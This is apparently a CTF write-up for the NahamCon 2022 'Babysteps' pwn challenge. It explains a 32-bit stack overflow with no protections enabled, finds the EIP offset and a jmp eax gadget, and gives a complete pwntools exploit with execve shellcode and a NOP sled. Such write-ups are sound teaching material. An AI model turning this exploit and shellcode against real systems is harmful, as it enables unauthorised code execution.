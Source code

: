 ```yaml
---
title:  "Babysteps"
date:  2022-05-01
draft:  false
enableToc: false
description: "A classic ret2shellcode with a twist, we use a gadget to execute our code off the stack. binary is 32-bit."
tags:
- pwn
- NahamCTF22
---
```




## Checksec
It's an aboslute mess, nothing is turned on fortunately :)
```
Canary                        : ✘
NX                            : ✘
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```

## Exploitation
### 1. EIP Control
We obtain our offset very easily in GEF.
![](./babysteps_offset.png)

<center>

![](/img/ach_offset.png)

</center>

### 2. Exploitation
We start by analyzing the stack at the overflown state.
![](./babysteps_stackstate.png)

Looking at the registers, It appears that only two registers point to our stack. `eax` and `esp`.

We search for gadgets jumping to any of these registers.
```
gef➤  ropper --search jmp
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: jmp

[INFO] File: /home/hegz/HDD/Cyber/CTF/NahamCon/Babysteps/babysteps

0x08049545: jmp eax;
```

We find a `jmp eax` gadget, this is perfect.

`eax` seems to point to the start of our buffer too.

Knowing that our offset to EIP is 28-bytes, this leaves us with two options:
1. Squeeze a shellcode in these 28 bytes and execute it by jumping to the start of the buffer using the `jmp eax` gadget.
2. Write our shellcode after the 28 bytes and pad the buffer with a NOP sled to our shellcode.

Option 1 wasn't successful due to the length of most execve shellcodes, the smallest execve shellcode I could find was 24-bytes in size and It leveraged the stack to expand further beyod these 24-bytes using multiple push instructions, this made my shellcode overflow itself, hence I was screaming at my keyboard on twitter.

<blockquote class="twitter-tweet" data-dnt="true" data-theme="dark"><p lang="en" dir="ltr">you know you should stop when your overflown shellcode overflows itself...</p>&mdash; hegz (@hegzploit) <a href="https://twitter.com/hegzploit/status/1519840156487929861?ref_src=twsrc%5Etfw">April 29, 2022</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

This lead us to just pad the buffer with nops and put our shellcode after `EIP`.

Here's our exploit.

```python
from pwn import *

context.binary = e = ELF("./babysteps")
context.encoding = 'latin'

if args['REMOTE']:
    io = remote("challenge.nahamcon.com", 30369)
elif args['GDB']:
    # Breaks at RTN instruction.
    io = gdb.debug(context.binary.path, f"""
    b *0x080492d0
""")
else:
    io = e.process()

OFFSET = 28
jmp_eax = 0x08049545
# Shellcode from http://shell-storm.org/shellcode/files/shellcode-811.php
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

io.clean(0.5)
io.fit(
    {OFFSET : p32(jmp_eax),
     OFFSET + 4 * 5 : shellcode},
    filler=b"\x90")
io.interactive()
```

<center>

![](/images/mc/ach_shell.png)

</center>
